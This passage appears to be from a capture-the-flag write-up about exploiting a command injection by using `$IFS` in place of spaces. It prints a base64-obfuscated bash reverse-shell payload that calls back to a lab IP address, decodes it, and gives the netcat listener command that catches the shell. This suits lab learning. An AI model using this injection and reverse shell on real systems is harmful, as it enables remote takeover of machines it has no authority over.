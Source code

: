 This one was an interesting command injection! I learned about `$IFS` and how you can leverage it as a white [space](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Command%20Injection/README.md#bypass-without-space)character. And we know we need spaces because we received an error.

![image11](./20230928161947.png)

After adding the `$IFS`...

![image10](./20230928162049.png)

We got a successful command injection! We can now try to get a reverse shell. 

##### Explaining the Reverse Shell

```bash 
;echo$IFS"L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjMvOTAwMSAwPiYx"|base64$IFS-d$IFS|bash;
```

This is your basic base64 encoded reverse shell: `/bin/bash -i >& /dev/tcp/<IP ADDRESS>/<PORT> 0>&1`. What happened is that I couldn't use the "&" in the payload, so I had to encoded.  Make suure you start your netcat listener to catch the shell `nc -lvnp 9001`.
